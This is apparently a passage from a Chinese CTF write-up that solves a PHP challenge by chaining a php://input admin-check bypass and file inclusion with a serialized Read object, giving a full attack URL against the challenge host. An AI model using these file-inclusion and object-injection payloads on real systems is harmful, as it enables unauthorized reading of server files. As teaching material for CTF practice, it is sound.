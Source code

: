 ```php
    echo "you are not admin ! ";
}
?>
 
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
 -->
```
以及class.php源码的base64加密，解密可得：
```php
<?php
error_reporting(E_ALL & ~E_NOTICE);
 
class Read{//f1a9.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}
?>
```
分析index.php源码可以知道，user依然不变，file直接赋值class.php，然后pass需要用class.php源码进行序列化，序列化之前对源码做一下小修改，令$file=”f1a9.php“，然后进行序列化，代码如下：
```php
<?php
error_reporting(E_ALL & ~E_NOTICE);
 
class Read{//f1a9.php
    public $file="f1a9.php";
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}
$a = new Read;
echo serialize($a);
?>
```
运行得到
```
O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}
```
O:4:"Read"表示4个字符的类Read，{s:4:"file";s:8:"f1a9.php";}表示4个字符的变量file，并且赋值8个字符的值为f1a9.php给变量file。
所以最终攻击链接为：
```
# 记得带上post内容：admin
http://123.206.31.85:10021/index.php?user=php://input&file=class.php&pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}
```
最终返回查看源码可得flag为：
```
```